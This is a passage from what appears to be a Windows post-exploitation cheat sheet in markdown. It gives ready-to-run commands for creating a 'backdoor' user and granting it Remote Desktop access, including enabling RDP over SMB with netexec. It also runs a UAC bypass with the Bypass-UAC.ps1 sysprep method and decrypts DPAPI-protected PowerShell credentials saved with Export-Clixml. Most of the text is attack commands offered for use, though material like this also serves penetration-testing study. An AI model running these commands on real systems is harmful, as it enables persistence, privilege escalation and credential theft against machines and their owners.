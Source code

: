 ```powershell
net user $USERNAME $PASSWORD
```

## Enable RDP User

```powershell
NET LOCALGROUP "Remote Desktop Users" $USERNAME /ADD
```

```bash
netexec smb $IP -u USERNAME -p PASSWORD -M rdp -o ACTION=enable
```

- https://github.com/crazywifi/Enable-RDP-One-Liner-CMD

## Bypassing User Account Control (UAC)

Even though the newly established user `backdoor` is a member of  **Administrators** group, accessing the **C:\users\Administrator** directory remains unfeasible due to the presence of User Account Control (UAC). UAC is a security mechanism implemented in Windows to protect the operating system from unauthorized changes. With UAC, each application that requires the administrator access token must prompt the end user for consent.

Numerous [UAC bypass](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) scripts are available, designed to assist in circumventing the active User Account Control (UAC) mechanism. These scripts offer methods to navigate past UAC restrictions and gain elevated privileges.

```powershell
powershell -ep bypass
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep
```

## PowerShell Credentials

PowerShell credentials are often used for scripting and automation tasks as a way to store encrypted credentials conveniently. The credentials are protected using [DPAPI](https://en.wikipedia.org/wiki/Data_Protection_API), which typically means they can only be decrypted by the same user on the same computer they were created on.

Take, for example, the following script **Connect-VC.ps1**, which a sysadmin has created to connect to a vCenter server easily.

```powershell
# Connect-VC.ps1
# Get-Credential | Export-Clixml -Path 'C:\scripts\pass.xml'
$encryptedPassword = Import-Clixml -Path 'C:\scripts\pass.xml'
$decryptedPassword = $encryptedPassword.GetNetworkCredential().Password
Connect-VIServer -Server 'VC-01' -User 'bob_adm' -Password $decryptedPassword
```

```powershell
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().username
$credential.GetNetworkCredential().password
```
